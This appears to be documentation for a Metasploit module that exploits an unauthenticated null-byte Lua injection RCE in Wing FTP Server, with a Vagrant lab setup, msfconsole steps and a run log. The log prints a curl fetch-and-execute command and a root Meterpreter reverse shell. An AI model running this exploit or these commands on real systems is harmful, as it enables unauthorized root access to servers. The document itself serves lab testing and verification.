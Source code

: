 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated Remote Code Execution** vulnerability
in **Wing FTP Server** (≤ 7.4.3 on Linux 64-bit), via its web administration interface.
The flaw lies in the login handler (`loginok.html`): by injecting a null byte (`%00`) into
the `username` parameter, attacker-supplied Lua code is written into the session file and
then executed by `loadfile()`, yielding arbitrary code execution as **root**.

To set up a vulnerable lab, use the following **Vagrantfile**, which provisions a Debian
"bookworm" VM, installs Wing FTP Server 7.4.3, and exposes its HTTP/S and FTP ports on the host:

```ruby
Vagrant.configure("2") do |config|
  config.vm.box = "debian/bookworm64"

  if Vagrant.has_plugin?("vagrant-vbguest")
    config.vbguest.auto_update = false
  end

  {
    21    => 2121,   # FTP
    990   => 2990,   # FTPS
    5466  => 5466,   # Admin port WingFTP
    50000 => 50000,  # Passive FTP range start
    50050 => 50050,  # Passive FTP range end
    80    => 8081    # HTTP WingFTP Web GUI
  }.each do |guest, host|
    config.vm.network "forwarded_port",
                      guest:        guest,
                      host:         host,
                      host_ip:      "0.0.0.0",
                      auto_correct: true
  end

  config.vm.provision "shell", inline: <<-SHELL
#!/usr/bin/env bash
set -e

ADMIN_USER="admin"
ADMIN_PASS="adminadmin"
ADMIN_PORT="5466"
WFTP_URL="https://web.archive.org/web/20250108084555/https://www.wftpserver.com/download/wftpserver-linux-64bit.tar.gz"

apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y --no-install-recommends \
  wget ca-certificates libssl3 libpam0g libacl1 libcap2 \
  net-tools procps expect curl \
  linux-headers-amd64 build-essential dkms

mkdir -p /opt/wingftp
cd /opt/wingftp
wget -qO wftp.tar.gz "$WFTP_URL"
tar xzf wftp.tar.gz --strip-components=1
rm wftp.tar.gz
chmod +x setup.sh

expect -c "
  spawn /opt/wingftp/setup.sh
  expect \\\"Enter your administrator name:\\\"     { send \\\"${ADMIN_USER}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter the listener port\\\"           { send \\\"${ADMIN_PORT}\\r\\\" }
  expect \\\"Do you want to start Wing FTP Server now?\\\" { send \\\"y\\r\\\" }
  expect eof
"

systemctl daemon-reload
systemctl enable wftpserver.service
systemctl start wftpserver.service
SHELL

  config.vm.provider "virtualbox" do |vb|
    vb.memory = 512
    vb.cpus   = 1
  end
end
```

* Save this as Vagrantfile in an empty directory.
* Run vagrant up.
* After provisioning, access the Wing FTP Server web UI at http://localhost:5466/ with credentials admin/adminadmin.
* On first login, a popup will appear; click OK.
* Create a new domain in the admin interface (this will enable the web client panel, port 8081).
* Then create a new user; for simplicity, use anonymous.

---

## Verification Steps

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wingftp_null_byte_rce
```
3. Set target parameters:
```
set RHOSTS 127.0.0.1
set RPORT 8081
set TARGETURI /
```
4. Configure payload:
```
set payload cmd/linux/http/x64/meterpreter/reverse_tcp
set LHOST <your IP>
set LPORT <your port>
```
5. Run the exploit:
```
run
```
6. On success, a Meterpreter session will open, confirming remote code execution.

---

## Options

* USERNAME - A valid username (default: anonymous)
* PASSWORD - A valid password (default: '')

---

## Scenarios

### Successful Exploitation against Wing FTP Server

**Setup**:

* Wing FTP Server running in the Vagrant VM above.
* Attacker on host machine with Metasploit.

**Steps**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wingftp_null_byte_rce) > run http://lab:8081
[*] Command to run on remote host: curl -so ./FaWVivODJhB http://192.168.1.36:9999/LoPlnjEpeOexZNVppn6cAA;chmod +x ./FaWVivODJhB;./FaWVivODJhB&
[*] Fetch handler listening on 192.168.1.36:9999
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. UID cookie received: UID=2a5efb5a398e4ff19369a523c3cfffb03683e20446a6b40715757e2b05f10521
[+] Received UID: UID=146015b242094d8f4eff04941d94e67d3683e20446a6b40715757e2b05f10521
[*] Client 192.168.1.36 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 192.168.1.36 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.36:46260) at 2025-07-01 18:56:31 +0200

meterpreter > sysinfo 
Computer     : 10.0.2.15
OS           : Debian 12.9 (Linux 6.1.0-37-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
